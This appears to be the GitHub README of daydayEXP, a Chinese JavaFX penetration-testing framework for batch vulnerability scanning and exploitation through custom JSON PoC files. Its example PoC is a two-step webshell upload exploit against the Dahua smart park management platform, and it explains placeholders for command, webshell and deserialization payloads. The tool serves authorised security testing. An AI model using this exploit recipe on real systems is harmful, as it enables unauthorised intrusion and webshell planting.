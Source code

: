  <h1>daydayEXP</h1>
	
## 项目简介：
基于java fx写的一款支持加载自定义poc文件的、可扩展的的图形化渗透测试框架。支持批量漏洞扫描、漏洞利用、结果导出等功能。

## 使用
经过测试，项目可在jdk8环境下正常使用。jdk11因为缺少一些必要的反序列化利用组件，所以jdk11版本工具为jdk8版本项目的阉割版，无法使用反序列化模块。

（请务必使用-Dfile.encoding=UTF-8参数打开项目，否则可能出现乱码、报错等问题）
```
java -jar -Dfile.encoding=UTF-8 dadayExp-1.0-jar-with-dependencies.jar   (jdk8)

因为jdk11以后就不自带javafx依赖了,所以运行需要指定javafx路径
java --module-path {javafx lib path} --add-modules ALL-MODULE-PATH -jar dadayExp-1.0-jar-with-dependencies.jar
```
### 使用建议
建议设置代理配合burp使用，在更新poc仓库和修改config.json文件后请及时`加载本地poc`。（如果涉及到修改api则需要重启项目）

### 初次使用
打开工具，本地无poc，需要先从`poc管理-在线更新poc仓库`从github仓库或自定义仓库加载poc文件到本地，并在主面板`加载本地poc`后使用。

（也可以将poc仓库中poc文件夹和config.json配置文件直接下载到工具当前目录下的poc目录中）

![image](https://github.com/bcvgh/daydaypoc_test/assets/56790427/39800780-33d8-4d69-aba0-e188e1b6f9b0)


#### 仓库搭建
详情查看[仓库搭建说明](https://github.com/bcvgh/daydayEXP/blob/main/repository.md) 

## 主要模块
### 漏洞扫描
选择一级菜单可对所有该标签下的漏洞都进行检测，选择二级则对单个漏洞扫描。支持批量扫描url、导出扫描结果、设置线程数等。
同时也支持设置dnslog，使用该模块可减少命令执行、反序列漏洞无回显导致的误报、漏报。

（如需要设置dnslog，请在项目启动前设置好config.json中dnslog的api等参数）

![image](https://github.com/bcvgh/daydaypoc_test/assets/56790427/3c5a4aa6-562d-45b6-91fc-5c05357cfdde)


### 漏洞利用
点击漏洞利用按钮，会根据当前漏洞的type类型动态生成相应的利用场景
目前支持的类型
```
exec
upload
custom
deserialization
other
```
#### exec
原理：匹配返回包中的命令执行回显。（无回显漏洞则需要自行验证）

例如命令执行、代码执行、SQL注入xpcmdshell等都归结到这一类

![image](https://github.com/bcvgh/daydaypoc_test/assets/56790427/01633f96-b317-4cb0-932b-3a54ab1991b4)


#### upload
原理：匹配返回包中的上传路径（非必要）后，拼接上传路径。

例如文件上传、任意文件写入、任意文件覆盖等都归结到这一类

![image](https://github.com/bcvgh/daydaypoc_test/assets/56790427/06e3e668-2ff8-41ce-b263-e5bdd6e1be00)


#### deserialization（暂只支持jdk8版本）
原理：自行选择反序列化gadget构造payload发送利用。

![image](https://github.com/bcvgh/daydaypoc_test/assets/56790427/7107dc5c-7ba4-4651-b9db-b948838c10d8)



### custom
在无法通过上述3种类型构造payload时使用，可根据自己的思路构造此类poc。

(可参考帆软v10反序列化漏洞poc)

![image](https://github.com/bcvgh/daydaypoc_test/assets/56790427/d51f9cec-c41e-4a56-a97a-c49e28c2d680)


## POC编写
可通过`POC管理-新增POC`处添加，也可以自行编辑文本添加
json文件中除了基本的name、tag等还包括poc和exp(目前exp只支持type为upload、deserialization和exec，如遇到其他类型漏洞，如：未授权、sql注入等建议只设置好poc字段进行一个初步漏洞检测，后续手工进行利用)
### POC模版

```
name  :   漏洞名称
tag   ：  漏洞标签（如:fanwei、youyong等，需要正确填写，否则会影响到POC文件正确加载）
type  ：  漏洞类型（如:upload、exec等，需要正确填写，否则影响EXP模块正常使用）
poc   :   漏洞检测
	pocGet:url路径
	pocPost:post数据(需要换行的情况建议用\r\n代替\n)
	header:
        status_code:匹配返回包状态码,支持多选如200,403
	pattern:匹配返回包的特征值（正则），通过匹配该字段确定漏洞是否存在
exp   ：
	step（n）：漏洞利用过程中的请求包先后顺序（step1代表请求的第一个数据包，step2、step3以此类推）
		expGet:url路径
		expPost:post数据
		header:
		status_code:匹配返回包状态码,支持多选如200,403
		pattern：匹配返回包的特征值（正则），当type类型为exec时，用来匹配返回包中的命令执行结果，upload类型则是一般用来匹配文件上传后随机生成的文件名。
```

例如:

```
{
	"name":"大华智慧园区管理平台文件上传",
	"tag":"dahua",
	"type":"upload",
	"poc":{
		"pocGet":"/publishing/publishing/material/file/video",
		"pocPost":"------WebKitFormBoundaryCJEleSRxsqS0lAFv\nContent-Disposition: form-data; name=\"Filedata\";filename=\"1.jsp\"\r\n\r\n123456\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
		"header":{
			"Cookie":" JSESSIONID=33FE9EFF8693FAD43EA7752BBE013080",
			"Accept":" text/html,application/xhtml+xml,json;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
			"Upgrade-Insecure-Requests":" 1",
			"User-Agent":" Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36",
			"Connection":" close",
			"Accept-Encoding":" gzip, deflate",
			"Accept-Language":" zh-CN,zh;q=0.9",
			"Content-Length":" 162",
			"Content-Type":" multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv"
		},
		"status_code":"200",
		"pattern":"([0-9]*\\.jsp)"
	},
	"exp":{
		"step1":{
			"expGet":"/publishing/publishing/material/file/video",
			"expPost":"------WebKitFormBoundaryCJEleSRxsqS0lAFv\nContent-Disposition: form-data; name=\"Filedata\";filename=\"24k.jsp\"\r\n\r\n{{webshell}}\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
			"header":{
				"Cookie":" JSESSIONID=33FE9EFF8693FAD43EA7752BBE013080",
				"Accept":" text/html,application/xhtml+xml,json;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
				"Upgrade-Insecure-Requests":" 1",
				"User-Agent":" Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36",
				"Connection":" close",
				"Accept-Encoding":" gzip, deflate",
				"Accept-Language":" zh-CN,zh;q=0.9",
				"Content-Length":" 162",
				"Content-Type":" multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv"
			},
			"status_code":"200",
			"pattern":"([0-9]*\\.jsp)"
		},
		"step2":{
			"expGet":"/publishingImg/VIDEO/{{shellpath}}",
			"header":{
				"User-Agent":"Mozilla/5.0 (Linux;",
				"content-type":"text/plain"
			},
			"status_code":"200",
			"pattern":"(.*)"
		}
	}
}
```

占位符：

```
{仅poc内可用}
{{dnslog}}:配置好dnslog平台api即可食用。一般应用于命令执行无回显,反序列化漏洞URLDNS探测的情况，减少误报率。

{仅exp内可用}
{{command}}:命令执行
{{shellpath}}:匹配到返回包中的脚本名称，应用于上传后wenshell文件名随机生成且在返回包中有回显的场景。
{{webshell}}:需要上传的文件上传内容

{poc、exp内均可使用}
{{deserialization}}:对打上此标签的位置生成反序列化数据，当在poc中使用时默认使用URLDNS链生成序列化payload，而在exp中可以根据需求自行选择构造。
{{random}}:随机生成4位数字字母，应用于poc中需要不同特征字符的特殊场景
{{url}}:即当前目标的url地址，应用在一些网站中可能会校验refer头的情况

编码：
使用案例：{{deserialization:GzipEncode}},{{command:Base64Encode:3}}(3为编码3次)
Base64Encode:对输入进行base64编码
Base64decode:对输入进行base64解码码
UrlEncode:url编码（全编码）
UrlDecode：url解码
HtmlEncode:HTML编码
HtmlDecode:HTML解码
GzipEncode:Gzip压缩
HexDecode:Hex解码

